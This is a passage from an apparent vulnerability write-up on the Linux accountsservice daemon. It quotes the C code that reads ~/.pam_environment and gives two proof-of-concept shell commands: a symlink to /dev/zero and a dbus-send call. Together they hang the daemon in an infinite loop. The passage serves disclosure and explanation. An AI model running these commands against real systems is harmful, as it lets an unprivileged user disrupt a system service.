         <span class="n">pam_env</span> <span class="o">=</span> <span class="n">g_build_path</span> <span class="p">(</span><span class="s">"/"</span><span class="p">,</span> <span class="n">accounts_user_get_home_directory</span> <span class="p">(</span><span class="n">ACCOUNTS_USER</span> <span class="p">(</span><span class="n">user</span><span class="p">)),</span> <span class="s">".pam_environment"</span><span class="p">,</span> <span class="nb">NULL</span><span class="p">);</span>

        <span class="k">if</span> <span class="p">(</span><span class="o">!</span><span class="n">user_drop_privileges_to_user</span> <span class="p">(</span><span class="n">user</span><span class="p">))</span>
                <span class="k">return</span> <span class="n">FALSE</span><span class="p">;</span>
        <span class="k">if</span> <span class="p">((</span><span class="n">fp</span> <span class="o">=</span> <span class="n">fopen</span> <span class="p">(</span><span class="n">pam_env</span><span class="p">,</span> <span class="s">"r"</span><span class="p">)))</span> <span class="p">{</span>
                <span class="n">gchar</span> <span class="n">line</span><span class="p">[</span><span class="mi">50</span><span class="p">];</span>
                <span class="k">while</span> <span class="p">((</span><span class="n">fgets</span> <span class="p">(</span><span class="n">line</span><span class="p">,</span> <span class="mi">50</span><span class="p">,</span> <span class="n">fp</span><span class="p">))</span> <span class="o">!=</span> <span class="nb">NULL</span><span class="p">)</span> <span class="p">{</span>
                        <span class="k">if</span> <span class="p">(</span><span class="n">g_str_has_prefix</span> <span class="p">(</span><span class="n">line</span><span class="p">,</span> <span class="n">prefix</span><span class="p">))</span> <span class="p">{</span>
                                <span class="n">ret</span> <span class="o">=</span> <span class="n">TRUE</span><span class="p">;</span>
                                <span class="k">break</span><span class="p">;</span>
                        <span class="p">}</span>
                <span class="p">}</span>
                <span class="n">fclose</span> <span class="p">(</span><span class="n">fp</span><span class="p">);</span>
        <span class="p">}</span>
        <span class="n">user_regain_privileges</span> <span class="p">();</span>

        <span class="k">return</span> <span class="n">ret</span><span class="p">;</span>
<span class="p">}</span>
</code></pre></div></div>

<p>This function parses the contents of a file named <code class="language-plaintext highlighter-rouge">.pam_environment</code> in the (unprivileged) user’s home directory. The user can trigger an infinite loop by creating a symlink to <code class="language-plaintext highlighter-rouge">/dev/zero</code>:</p>

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nb">ln</span> <span class="nt">-s</span> /dev/zero ~/.pam_environment
</code></pre></div></div>

<p>The infinite loop can then be triggered by sending a D-Bus message to the accountsservice daemon:</p>

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>dbus-send <span class="nt">--system</span> <span class="nt">--dest</span><span class="o">=</span>org.freedesktop.Accounts <span class="nt">--type</span><span class="o">=</span>method_call <span class="nt">--print-reply</span><span class="o">=</span>literal /org/freedesktop/Accounts/User<span class="sb">`</span><span class="nb">id</span> <span class="nt">-u</span><span class="sb">`</span> org.freedesktop.Accounts.User.SetLanguage string:kevwozere &amp;
</code></pre></div></div>
